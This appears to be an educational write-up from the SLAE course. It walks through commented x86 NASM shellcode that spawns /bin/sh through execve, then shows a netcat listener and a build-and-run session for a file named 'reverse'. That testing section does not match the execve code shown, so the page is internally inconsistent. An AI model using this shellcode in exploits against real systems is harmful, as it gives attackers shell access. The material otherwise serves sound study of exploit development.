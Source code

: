 The nasm source is located <a href="https://github.com/skahwah/slae/blob/master/execve-stack/execve-stack.nasm">here</a> and a brief breakdown of the shellcode is located <a href="https://popped.io/execve-stack/">here<a>.

```nasm
xor eax, eax  ;zero out eax
push eax      ;push 00000000 on to the stack


push 0x68732f6e ;push hex hs/n on to the stack
push 0x69622f2f ;push hex ib// on to the stack

;at this point the stack contains //bin/sh0x00000000
mov ebx, esp  ;this satisfies the requirements for *filename (first argument of execve)

push eax      ;push 00000000 on to the stack

;at this point the stack contains 0x00000000//bin/sh0x00000000
mov edx, esp  ;we cant pop 0x00000000 into EDX as the shellcode cannot have any null characters.
              ;instead we move the current address pointed to by ESP into EDX.
              ;this address contains the last value pushed on to the stack, which is 0x00000000
              ;this satisfies the requirements for envp (third argument of execve)

push ebx      ;ebx contains the memory address of the stack where //bin/sh0x00000000 is.
mov ecx, esp  ;this satisfies the requirements for argv (second argument of execve)

mov al, 11     ;execve syscall number, 0xb works also.
int 0x80       ;initiate
```

### Testing Execution

#### Set up the listener
```
skawa@ubuntu:~$ nc -lvp 3879
listening on [any] 3879 ...


```

I built on top of <a href="https://twitter.com/SecurityTube">Vivek's</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ls
reverse.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ./super-compile.sh reverse
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ls
reverse  reverse.nasm  reverse.o  shellcode-reverse  shellcode-reverse.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ./shellcode-reverse
Shellcode Length: 23


```

